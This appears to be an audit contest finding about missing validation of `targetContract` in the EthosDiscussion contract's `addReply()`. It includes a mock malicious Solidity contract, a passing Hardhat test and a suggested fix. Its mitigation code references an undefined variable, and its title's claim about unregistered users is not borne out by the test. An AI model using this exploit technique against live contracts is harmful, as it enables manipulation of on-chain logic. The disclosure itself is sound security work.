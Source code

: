 Creamy Tangelo Jellyfish

Medium

# Attacker can add a `reply` even if not registered and can also reply to an `invalid` target by setting the `targetContract` parameter to a mallicious contract where the checks for `targetContract` will be validated.

### Summary

The lack of validation of `targetContract` parameter in `addReply()` means the user can pass the address of any contract address to it and this address is then passed down to `_checkIfTargetExistsAndAllowed(targetContract, targetId)` which is called in `addReply()`

```solidity 
function _checkIfTargetExistsAndAllowed(address targetContract, uint256 targetId) private view {
    (bool exists, ) = ITargetStatus(targetContract).targetExistsAndAllowedForId(targetId);

    if (!exists) {
      revert TargetNotFound(targetContract, targetId);
    }
  }
```

Now provided the contract passed into `targetContract` follows the `ITargetStatus` interface it will execute successfully, this means the attacker is in complete control of the logic and what the return values will be and can set both return values to true for any `targetId` including 0 and numbers > replyCount which would cause lots of problems since the EthosDescussion contract's core logic heavily relies on no reply having Id of `0` or greater than `replyCount`. 
These `replys` will not belong to any of the ethos contracts(profile/discussion/attestation) but to the mallicious contract which has been set,  hence there will `replys` with to place for them, and unnecessarily increasing the replyCount and causing so many breaks in the contract's logic 

### Root Cause

- The target contract argument in `addReply` isn't checked to make sure it's part of Ethos contracts.

### Internal pre-conditions

-  `isTargetThisContract` needs to be false https://github.com/sherlock-audit/2024-10-ethos-network/blob/main/ethos/packages/contracts/contracts/EthosDiscussion.sol#L115
- No checks on targetContract to verify it's part of the Ethos contracts.

### External pre-conditions

1. The contract which gets passed as the `targetContract` needs to follow the `ITargetStatus` interface 

### Attack Path

1. Attacker sets a malicious contract as `targetContract` instead of one of the ethos contracts 
2. Attacker calls `addReply()`
3. Attacker makes sure the contract's return values are true https://github.com/sherlock-audit/2024-10-ethos-network/blob/main/ethos/packages/contracts/contracts/EthosDiscussion.sol#L300 

### Impact

- Multiple breaks in contract logic.

### PoC

//malicious contract 

```solidity 

// SPDX-License-Identifier: MIT
pragma solidity 0.8.26;

import "./interfaces/ITargetStatus.sol";

contract MockTargetStatus is ITargetStatus {
    bool private _exists;

    constructor(bool exists) {
        _exists = exists;
    }

    function targetExistsAndAllowedForId(uint256 _targetId) external view override returns (bool exists, bool allowed) {
        return (_exists, _exists); // Assume allowed is always true for simplicity
    }
}

```
//test

```typescript

 it("should successfully add a reply when target contract is NOT a valid Ethos address", async () => {
      const { COMMENTER_0, ethosDiscussion, ethosProfile, OWNER } = await loadFixture(deployFixture);
    
      // Deploy the MockTargetStatus(malicious) contract and capture its address
      const mockTargetStatus = await ethers.deployContract('MockTargetStatus', [true]); // Pass true or false based on your test case
      const mockTargetStatusAddress = await mockTargetStatus.getAddress();
    
      await ethosProfile.connect(OWNER).inviteAddress(COMMENTER_0.address);
      await ethosProfile.connect(COMMENTER_0).createProfile(1);

      const initialReplyCount = await ethosDiscussion.replyCount();
      console.log("Initial Reply Count:", initialReplyCount.toString());
    
      const tx = await ethosDiscussion
        .connect(COMMENTER_0)
        .addReply(mockTargetStatusAddress, 100, defaultReplyContent, defaultReplyMetadata);
    
      // Wait for the transaction to be mined
      await tx.wait();
    
      const newReplyCount = await ethosDiscussion.replyCount();
      console.log("New Reply Count:", newReplyCount.toString());

      
      expect(newReplyCount).to.equal(1); 

    });
```

### This test passes 



### Mitigation

1. Adding a modifier in `addReply()` such as 

```solidity 
 modifier isValidTarget(address targetContract) {
    if (!contractAddressManager.checkIsEthosContract(targetContract)) {
      revert InvalidTargetContract(target);
    }
    _;
  }
//copied from EthosVote.sol
```